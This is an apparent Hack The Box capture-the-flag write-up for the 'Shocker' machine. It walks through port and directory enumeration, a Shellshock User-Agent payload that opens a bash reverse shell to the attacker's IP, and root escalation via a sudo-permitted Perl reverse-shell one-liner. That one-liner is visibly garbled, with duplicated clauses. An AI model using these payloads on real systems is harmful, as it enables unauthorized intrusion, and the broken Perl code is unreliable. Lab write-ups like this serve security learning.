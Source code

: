 ![Image LOGO](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/shocker.png)

## ------------->> Shocker <<----------------

// We will start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.56 -p-
-------

    Nmap scan report for 10.10.10.56
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.56/ , present us with a website with only photo

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/1.png)

// Lets search for interesting directories with [gobuster](https://github.com/OJ/gobuster)(By OJ)

    $ gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 
-------

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.56
    [+] Method:                  GET
    [+] Threads:                 20
    [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/07/07 19:21:00 Starting gobuster in directory enumeration mode
    ===============================================================
    /server-status        (Status: 403) [Size: 299]

    ===============================================================
    2021/07/07 19:47:19 Finished
    ===============================================================

// gobuster = no results
// continue to other tool : [feroxbuster](https://github.com/epi052/feroxbuster)(By epi052)

    $ ./feroxbuster -u http:10.10.10.56 -x php,html
------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http:10.10.10.56
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     💲  Extensions            │ [php, html]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    200        9l       13w      137c http://10.10.10.56/index.html
    403       11l       32w      299c http://10.10.10.56/server-status
    [####################] - 4m    179994/179994  0s      found:2       errors:0      
    [####################] - 4m     89997/89997   362/s   http:10.10.10.56


// Not found much either

// ets try -f (force adding '/' to the end of directories) and -n (not scan recursevly)

    $ ./feroxbuster -u http:10.10.10.56 -f -n
-------

    .......
    403       11l       32w      294c http://10.10.10.56/cgi-bin/
    403       11l       32w      292c http://10.10.10.56/icons/
    403       11l       32w      300c http://10.10.10.56/server-status/
    .......

// Greate, We found /cgi-bin/ directory

// Lets try to search with common cgi scripts extensions in /cgi-bin/

    $ ./feroxbuster -u http:10.10.10.56/cgi-bin/ -x sh,cgi,pl
---------

    ......
    200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
    ......

// Alsome, found .sh file /cgi-bin/user.sh

// Download the file and see the contant

    $ cat user.sh
    
    Content-Type: text/plain

    Just an uptime test script

    15:28:27 up 10 min,  0 users,  load average: 0.00, 0.01, 0.00

// when i type uptime in my terminal it like the same command

    $ uptime 
    
    20:20:21 up  3:51,  2 users,  load average: 2.05, 1.92, 1.67

// Lets check the answer in BurpSuite Reapeter

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/2.png)

// we needed to download the file becouse the gap between Content-Length and Content-Type

// so the first Content-Type selected is  text/x-sh which stends for - (execute .sh file)

// which mean there is some talking with the server so lets try to inject code to the server

// u can add the request that sent in burpsuite , OR 

// one of the techniques i have found was shellshock one liner paylad:

    $ curl -H "User-Agent: () { :; };/bin/bash -i >&/dev/tcp/10.10.17.8/1444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

// before that just run a listiner 

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...

// And we have a shell

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 43410
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$ 

// And user flag

    cat user.txt
    631d652c................

### ----Privilleges Escalation----

// Lets check what have sudo permissions

    $ sudo -l
    
    Matching Defaults entries for shelly on Shocker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User shelly may run the following commands on Shocker:
        (root) NOPASSWD: /usr/bin/perl
      
// We can see that shelly able to run perl script with high privilleges(sudo)

// all that last to do is make perl reverse shell

// First open a listiner

    $ rlwrap nc -lvnp 9002

// We can found a perl shell script [here](https://www.revshells.com/)

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Shocker/3.png)

    shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.17.8";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

// We got root shell !!

    $ rlwrap nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 41516
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    root

// And root flag !

    cat root.txt
    309790.................
